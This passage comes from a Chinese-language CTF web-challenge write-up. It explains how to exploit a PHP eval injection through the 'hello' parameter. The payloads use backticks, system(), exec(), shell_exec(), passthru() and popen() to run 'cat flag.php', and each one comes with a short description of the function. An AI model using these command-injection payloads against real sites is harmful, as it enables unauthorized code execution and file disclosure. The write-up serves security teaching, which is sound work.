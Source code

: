 因此，构造 payload ``hello=);echo `cat flag.php`;//``，提交后在网页源代码处即可看到 flag：

![backticks](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/backticks.png)

## system()

[`system()`](http://php.net/manual/en/function.system.php) 函数用于执行外部程序，输出执行结果，并返回结果的最后一行。

因此，在提交 payload `hello=);echo system("cat flag.php");//` 后，在网页源代码处可看到两个 flag，是因为第一个 flag 是由输出结果而得，第二个 flag 是由返回值而得：

![system](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/system.png)

## exec()

[`exec()`](http://php.net/manual/en/function.exec.php) 函数用于执行一个外部程序，并返回结果的最后一行。

因此，在提交 payload `hello=);echo exec("cat flag.php");//` 后，直接可见 flag，因此 flag 正好是 flag.php 文件中的最后一行：

![exec](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/exec.png)

## shell_exec()

[`shell_exec()`](http://php.net/manual/en/function.shell-exec.php) 函数可通过 shell 环境执行命令，并返回所有执行结果，本函数功能与执行运算符相同。

因此，构造 payload `hello=);echo shell_exec("cat flag.php");//`，提交后在网页源代码处即可看到 flag：

![shell_exec](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/shell_exec.png)

## passthru()

[`passthru()`](http://php.net/manual/en/function.passthru.php) 函数用于执行外部函数，并输出原始执行结果，没有返回值。

因此，构造 payload `hello=);echo passthru("cat flag.php");//`，提交后在网页源代码处即可看到 flag：

![passthru](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/passthru.png)

## popen()

[`popen()`](http://php.net/manual/en/function.popen.php) 函数用于创建指向命令执行进程的文件句柄，与 `fopen()` 函数类似，最后将通过 `fread()` 函数读取命令执行的结果。

因此，构造 payload `hello=);echo fread(popen("cat flag.php","r"),100);//`，提交后在网页源代码处即可看到 flag：

![popen](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_Web_%E7%88%86%E7%A0%B4_2/popen.png)

以上是通过执行系统命令打印出文件内容的常见函数，感兴趣的读者可深入研究。

# 0x03 题外话
